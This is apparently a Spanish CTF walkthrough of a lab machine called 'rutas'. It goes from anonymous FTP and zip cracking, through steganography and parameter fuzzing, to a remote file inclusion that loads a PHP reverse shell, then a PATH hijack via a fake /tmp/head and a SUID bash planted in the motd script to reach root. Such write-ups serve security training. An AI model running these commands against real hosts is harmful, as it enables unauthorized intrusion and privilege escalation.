# Máquina rutas

---

Dificultad -> Medio

---

Empezamos con un nmap para ver servicios

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0               0 Jul 11  2024 hola_disfruta
|_-rw-r--r--    1 0        0             293 Jul 11  2024 respeta.zip
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 3ubuntu13.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 63:16:54:2a:05:1d:8e:43:53:55:8b:d5:4e:35:c9:1f (ECDSA)
|_  256 21:24:77:5d:f8:2f:b2:64:ec:42:8b:0b:ef:f0:46:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

Vemos un web, un ssh y un ftp con login anonymous

Primero me meto al ftp y descargo los 2 archivos que hay



`hola_disfruta` es un archivo vacio de 0b asi que no hay mucho que hacer con él

Intento extraer el zip `respeta.zip` pero me pide contraseña:



Para conseguir la contraseña utilizo `zip2john respeta.zip > hash` para pasarlo a un hash y `john hash` para crackear el hash


Consigo la contraseña `greenday` con la extraigo `respeta.zip` dentro hay un txt que dice lo siguiente:



Me dice que busque la imagen `crackpass.jpg` en el github del creador de la máquina.

Mirando un poco, veo que todas las imágenes se guardan en `/assets` y encuentro la imágen en `/assets/crackpass.jpg` la guardo

Con la imágen intento sacar texto o archivos ocultos con estenografía suando:

```shell
steghide extract -sf crackpass.jpg
```



Me da un zip `passwd.zip` donde si lo extraigo encuentro un archivo llamado `pass` que contiene unas credenciales



Las pruebo en el ssh y ftp pero no puedo entrar 

Por esta parte no hay mucho más que ver asi voy a la página en el puerto 80



Como solo hay un apache2 deafult page, con gobuster hago fuzzing a ver si enecuntro algo interesante:

```shell
gobuster dir --url "http://172.17.0.2" --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

```shell
/index.html           (Status: 200) [Size: 10671]
/index.php            (Status: 200) [Size: 1116]
/server-status        (Status: 403) [Size: 275]
```

Aparte del `index.html` donde esta el apache2 default page me encuntra otro index en php, entro y veo lo siguiente:



En el codigo fuente veo que los enlaces llevan a diferentes hosts



Pruebo a poner estos hosts en `/etc/hosts`, con el `trackedvuln.dl` me lleva a una página donde tengo que iniciar sesión



Aquí uso las credenciales que encontré en el ftp `hackeada:denuevo` 

Al poner las credenciales solo me lleva de nuevo a la página default de apache.

Vuelvo al index.php, ahora con el host, pero sigue igual, busco otros directorios pero no encuentro nada, asi que solo se me ocurre buscar un parámetro en el php

Despues de buscar un rato encuentro como hacer fuzzing con `ffuf` usando cookies para la autorización de la página con el siguiente comando:

```shell
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://trackedvuln.dl/index.php?FUZZ=whoami -H "Authorization: Basic $(echo -n 'hackeada:denuevo' | base64)" -fw 155
```

Filtrando por palabras `-fw 155` encuentro el párametro `love` parametro con 172 palabras:

 

Si entro a la página veo que no es ni un LFI ni RCE



Así que pruebo un RFI, con python me abro un servidor

```shell
python -m  http.server 80
```



Y ahora meto en el parámetro `love` la url de mi servidor en python, que quedaría asi:

http://trackedvuln.dl/index.php?love=http://172.17.0.1



Se puede ver que tengo acceso al archivo que he creado en mi máquina para probar.

Viendo que tengo un RFI, me descargo una revshell en php de [revshells.com](https://www.revshells.com/) 



La abro mientras escucho en mi máquina en el puerto seleccionado:



Y estamos dentro de lá máquina, ahora antes de nada, hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) 

Ahora con una termianal cómoda, hago un `sudo -l` para ver que binarios puedo ejecutar:



Veo que puedo ejecutar baner como `norberto`, un binario desconocido, si lo ejecuto hace lo siguiente



Me dice que ejecutar head con ruta absoluta y con ruta relativa, si lo ejecutamos como `norberto`, hace lo mismo, aquí nos interesa saber que el `head` se ejecuta con ruta relativa (es decir sin el /bin/head, solo head), y si nos fijamos en la ruta segura cuando hacemos `sudo -l`, podemos ver que esta primero el directorio `/tmp`: 



Entonces si creamos un archivo llamado `head` en `/tmp`, este se ejecutará al ejecutar baner.

Sabiendo esto, creo un archivo en `/tmp` llamado `head`que simplemente abra una bash y le doy permisos de ejecucción:

```shell
echo '/bin/bash' > /tmp/head
chmod +x /tmp/head
```

Ahora al ejecutar el `baner` como norberto pasa lo siguiente:

```shell
sudo -u norberto baner
```



Ahora siendo norberto, me pide contraseña para `sudo -l`.

Miro su carpeta en /home



Encuentro `.-` dentro, hay un archivo llamado `.miscredenciales` donde veo unas credenciales en braile



En [ABC Braille](https://abcbraille.com/braille) lo paso a texto y veo que la contraseña es `practicacreandoretos`.

Pruebo ha hacer `sudo -l` pero nada, entro por ssh y me encuentro lo siguiente



Ahora derrepente soy maria, miro en su `/home/maria` y encuentro un `.pass`:



Me da sus credenciales `maria:asientiendesmejor` y pregunta que donde podrá escribir asi que seguramente tengo que escribir en algun archivo

Ahora como maría, busco archivos donde pueda escribir con `find / -writable 2>/dev/null`

Despues de buscar un rato en la lista, encuentro que puedo editar `/etc/update-motd.d/00-header`



Ese archivo lo que hace es mostrar mensajes al logearse el usuario, este se ejecuta cuando se logea el usuario, asi que podemos usar esto, lo edito con nano y agrego `chmod u+s /bin/bash` para dar permisos SUID de en bash al propietario del script (maria)


Guardamos el archivo y ahora volvemos a logearnos como maria y ejecutamos `bash -p` para que bash no ignore el SUID 



Y somos root :)
